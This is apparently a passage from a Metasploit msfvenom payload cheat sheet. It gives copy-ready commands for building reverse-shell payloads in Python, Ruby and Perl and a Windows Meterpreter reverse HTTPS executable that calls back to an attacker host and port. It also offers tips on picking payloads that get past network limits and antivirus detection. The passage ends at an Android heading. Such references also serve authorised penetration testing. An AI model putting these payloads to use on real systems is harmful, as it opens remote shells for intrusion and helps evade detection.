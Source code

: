 
### Cloud-native / Containers: Kubernetes & Serverless

msfvenom emits binaries — for cloud-native attacks, your delivery often pivots through existing images or artifacts. Examples are bespoke and require environment-specific tactics (image injection, CI compromise).

---

### Misc language-specific payloads (embedding into scripts)

- **Python wrapper**:
    

```bash
msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw -o shell.py
```

- **Ruby wrapper**:
    

```bash
msfvenom -p cmd/unix/reverse_ruby LHOST=<IP> LPORT=<PORT> -f raw -o shell.rb
```

- **Perl wrapper**:
    

```bash
msfvenom -p cmd/unix/reverse_perl LHOST=<IP> LPORT=<PORT> -f raw -o shell.pl
```

---

## How to choose which payload

- **Network constraints:** If only HTTP(S) allowed, use HTTP(S) staged payloads.
    
- **Size limits:** For small upload surfaces, prefer staged stagers or scriptable one-liners.
    
- **Detection risk:** Staged Meterpreter often more stealthy initially than large stageless shells, but AV signatures evolve quickly.
    
- **Target architecture & OS:** Always confirm with `uname -a`, `file`, or metadata what architecture the target uses (x86, x64, arm, mips, etc.).
    

---

## Examples — copy-ready (more variants)

**Windows Meterpreter Reverse HTTPS (x64):**

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=10.0.0.5 LPORT=8443 -f exe -o meter_https_x64.exe
```

**Android Meterpreter Reverse TCP:**
